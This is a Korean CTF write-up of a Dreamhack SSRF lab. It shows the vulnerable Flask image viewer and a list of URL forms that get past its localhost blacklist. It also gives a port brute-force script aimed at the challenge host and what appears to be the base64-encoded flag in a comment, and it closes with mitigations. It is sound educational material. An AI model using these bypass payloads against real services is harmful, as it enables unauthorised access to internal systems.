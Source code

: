 ```yaml
---
layout : single
title : "STAGE9. Server Side Request Forgery"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - ServerSide : Server Side Request Forgery (SSRF)

-  [x] 함께 실습 : web-ssrf

## 함께 실습 : web-ssrf

플래그는 /app/flag.txt 에 있다

### 웹 서비스 분석

#### /img_viewer

GET : img_viewer.html 렌더링

POST : 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

#### run_local_server 함수

파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버를 실행한다. http.server.HTTPServer의 두 번째 인자로 http.server.SimpleHttpRequestHandler을 전달하면, 현재 디렉토리를 기준으로 URL이 가리키는 리소스를 반환하는 웹 서버가 생성된다. 

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)

def run_local_server():
    local_server.serve_forever()

threading._start_new_thread(run_local_server, ())
```

### 취약점 분석 

```python
elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
    data = open("error.png", "rb").read()
    img = base64.b64encode(data).decode("utf8")
    return render_template("img_viewer.html", img=img)
```

img_viewer는 위와 같은 방법으로 127.0.0.1 또는 localhost가 포함된 URL로의 접근을 막기에, 이를 우회하면 SSRF를 통한 내부 HTTP 서버 접근을 할 수 있다.

\* URL 필터링은 URL에 포한되면 안되는 문자열로 블랙리스트를 만들고, 이를 이용하여 이용자의 접근을 제어하는 블랙리스트 필터링과, 접근을 허용할 URL로 구성된 화이트리스트 외의 URL을 모두 차단하는 화이트리스트 필터링으로 나뉜다

### 익스플로잇

- 127.0.0.1과 매핑된 도메인 이름 사용 <br>임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하거나, 이미 127.0.0.1에 매핑된 *.vcap.me 를 이용하여 접근할 수 있다

- 127.0.0.1의 alias 이용 <br>하나의 IP는 여러 방식으로 표기되는데, 127.0.0.1의 경우, 다음과 같은 방식으로 표기될 수 있다.

>>|How|Example|
|:---|:---|
|16진수로 변환|0x7f.0x00.0x00.0x01|
|16진수 변환에서 . 제거|0x7f000001|
|위 숫자를 10진수로 변환|2130706433|
|각 자리에서 0 생략|127.1 / 127.0.1|

- localhost의 alias 이용<br>호스트와 스키마는 대소문자를 구분하지 않으므로, localhost의 임의 문자를 대문자로 바꾸어도 같은 호스트를 의미한다

#### 필터링을 우회할 수 있는 로컬호스트의 URL

http://vcap.me:8000/

http://0x7f.0x00.0x00.0x01:8000/

http://0x7f000001:8000/

http://2130706433:8000/

http://Localhost:8000/

http://127.0.0.255:8000/

<!-- data:image/png;base64, REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9 -->

#### 풀이

1) 아래와 같이 내부 HTTP 서버의 포트번호를 알아내는 코드를 작성 후 실행한다

```python
from flask import (
    Flask,
    request
)
import requests

for port in range(1500, 1800):
    res = requests.post('http://host3.dreamhack.games:10334/img_viewer', data={'url': 'http://Localhost:' + str(port)})
    print(port)
    if len(res.text) != 65121: # error.png의 res.text 길이 = 65121 바이트
        print('random port: ' + str(port))
        break
```

2) 다음과 같이 포트 번호의 정보를 얻는다

<img src = "/images/wargame/19.png"><br>

3) 포트 번호를 넣어 app/flag.txt 에 접근한다

<img src = "/images/wargame/17.png"><br>

4) 출력되는 img의 src가 바뀐 것을 볼 수 있는데, 다음 정보를 base64 디코더에 넣어 디코딩 하면 flag를 얻을 수 있다

<img src = "/images/wargame/18.png"><br>

### SSRF 공격을 막으려면 ?

화이트리스팅으로 강한 URL 필터링을 적용하거나, HTTP 요청을 하는 애플리케이션을 내부망과 분리하여 약점을 보완할 수 있다